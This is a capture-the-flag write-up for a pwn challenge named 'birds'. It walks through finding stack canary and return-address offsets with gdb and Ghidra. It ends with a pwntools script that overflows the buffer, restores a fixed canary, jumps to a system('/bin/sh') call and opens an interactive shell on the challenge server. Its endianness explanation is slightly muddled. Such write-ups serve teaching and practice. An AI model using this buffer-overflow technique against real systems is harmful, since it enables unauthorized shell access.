 \##### pwn challenge  
Required Tools:   
\- checksec  
\- gdb debugger  
\- Linux operating system or Windows Subsystem for Linux (WSL)  
\- pwntools  
  
For this challenge, all that we need to do is find the distance between the buffer, the canary, and the return address at the end of main. After that, we just need to understand pwntools, how stack memory works, and how assembly works, and we can write a quick exploit script in python to get shell access to the remote server and print the flag.  
  
\### 1.  Finding all of our needed offsets  
\- We will use gdb to debug the \*\*birds\*\* executable. We will set two breakpoints. One at the instruction that takes place right after the buffer is filled, and another right on the RET instruction.  
\- Because this program is so simple you may be able to tell where to place both of these breakpoints by running the command \*\*disas main\*\*   
!\[\[main disassembly.png\]\]  
  
We can go ahead and place our breakpoints  at the RET instruction, and at the cmpl assembly instruction  
\`\`\`  
(gdb) b \*0x40125d  
Breakpoint 1 at 0x40125d                                                                                                                                 
(gdb) b \*0x401285  
Breakpoint 2 at 0x401285   
\`\`\`  
  
If you want to make sure you are understanding correctly and are placing your breakpoints at the right spot, you can open up the executable in ghidra or IDA pro and compare memory addresses with their places in the decompiled C code.  
  
After analyzing the executable, we find \*\*main\*\* in the symbol tree under functions. We can see that, although gdb and Ghidra disassembled the birds executable a little differently, that we have the correct position for both the start of the if statement, and the return address for main  
!\[\[ghidra-1.png\]\]  
  
While we are in gdb and ghidra, let us also figure out the address of the call to run the shell. We can skip straight to this address in memory to avoid having to call a gadget.  
  
Let's first disassemble win() in gdb, find the address we think is the system call to run the shell, and then verify we are correct with ghidra  
 !\[\[win disassembly.png\]\]  
It appears that the system call in \*\*win\*\* happens at 0x4011e6 in memory. And we can verify this in ghidra by finding \*\*win\*\* in the Symbol Tree  
!\[\[win breakpoint.png\]\]  
  
\*\*WATCH OUT!\*\*  
  
If we assumed that this memory address is where we should jump to in order to execute our shell system call, we would be mistaken! We have to remember that function calls require setup in assembly. The system function call requires an argument  (a command). Recall that in linux x86-64 assembly, RDI is a functions first argument, followed by RSI, RDX , RCX, and so on. This means that RDI must be filled with the system command '/bin/sh' before the system call, otherwise the function call will fail or behave unpredictably.   
  
From looking at ghidra's visual debugger, we can see that inside of the IF statement there are 2 lines of preparation before the system call is made. This means we should override main's return address with \*\*0x4011dc\*\* , which will bring us right to our shell system call.  
!\[\[Assembly Preparation.png\]\]  
  
Ok, so now it's time to run birds with the breakpoints we have set.   
1\. On our first breakpoint, we are trying to determine the distance between the buffer and the canary  
2\. On our second breakpoint, we are trying to find the return address of main, so that we can find the distance between the canary and the return address.  
  
When we run birds in gdb, we are prompted to fill the buffer. Go ahead and fill the buffer with 64 characters of any kind. Each character is a byte, that's why the buffer size and the character count is the same. In my debugging session I put in 64 A's.  
  
Feel free to copy/paste  
  
\` AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
  
Once you press enter, you will be stopped at our first breakpoint.   
  
At this breakpoint we want to examine the stack to see where the buffer ends and the canary begins. To inspect the stack, run the below command:  
** x/127wx $rsp **  
!\[\[stack-screenshot.png\]\]  
\- Lets break down the above GDB command:  
    - x/ -> examine -> used to inspect memory  
    - 128 -> Specifies the number of units to examine, in this case, 128 units  
    - w -> Stands for "word", which means each unit is 4 bytes / 32 bits  
    - x -> Specifies the format, which in this case is hexadecimal  
    - $rsp Refers to the stack pointer register  
    - All of the A's here display as 0x41, because the ASCII representation of A is 0x41 in hexadecimal (65 in decimal)  
  
Since each group of data displayed here is 4 bytes, we can tell that there are \*\*12 bytes of data\*\* in between the buffer and the canary  
  
Let's keep this screenshot in mind and continue to the next breakpoint. We can continue by typing \*\*c\*\*  
  
Once we break at the RET instruction, all we have to do is step one instruction forward and find the contents of RIP. Recall that RIP is the instruction pointer. Because we broke right before RET, if we step one instruction forward with the command \*\*stepi\*\*, the next instruction will be where we are returning to, AKA the return address of main.  
  
If we run the command \*\*info stack frame\*\*, we can find the contents of RIP , and try and find this address on the stack that we took a screenshot of before.  
!\[\[RIP Contents.png\]\]  
  
We found that the return address is 8 bytes away from the canary!  
  
![Stack Screenshot](stack-screenshot-Highlights.png)
  
We now know everything we need in order to write our pwntools script.  
  
We can take advantage of pwntools p32() and p64() functions to add our canary and return address data to the payload, as the data needs to be changed from big endian to little endian format in order for the CPU to read it properly.  
  
pwntools script:  
  
\`\`\`  
from pwn import \*  
  
\# -- PAYLOAD CREATION -- #  
payload = b"A"\*64  
payload += b"B" \* 12  
payload += p32(0xDEADBEEF)  
#payload += b"\\xef\\xbe\\xad\\xde" <- what the canary ends up as  
  
payload += b"C" \* 8  
payload+= p64(0x00000000004011dc)  
#payload += b"\\xdc\\x11\\x40\\x00\\x00\\x00\\x00\\x00" <- what the ret addr ends up as  
  
print(payload)  
  
\# ---------------------- #  
  
  
\# EXECUTABLE CONNECTION #  
  
\# If you are connecting to a local process, use the below  
  
#p = process('./birds')  
#p.sendline(payload)  
#p.interactive()  
  
\# If you are connecting to a remote server, use the below  
  
target\_host = "tjc.tf"  
target\_port = 31625  
  
conn = remote(target\_host, target\_port)  
conn.recvuntil("wrong!\\n")  
conn.sendline(payload)  
conn.interactive()  
  
\# --------------------- #  
\`\`\`  
  
Explanation of big -> little endian conversion  
  
Recall that in big endian format, numbers to the left are more significant than numbers on the right. Humans use big endian number formatting.  
  
In little endian format, numbers to the right are more significant than numbers to the left.  
  
For example, consider the big endian number 123. In little endian, that number would be written as 321. But they refer to the same value.  
  
gdb converts stack memory from little endian to big endian for readability purposes. But when we perform our buffer overflow attack, we have to make sure the data ends up on the stack in little endian format.  
  
However, each character/byte is represented with two hexidecimal digits. These two digits don't change order. !\[\[big-little-endian.png\]\]  
  
Putting the connection in interactive mode allows the user to run shell commands.#
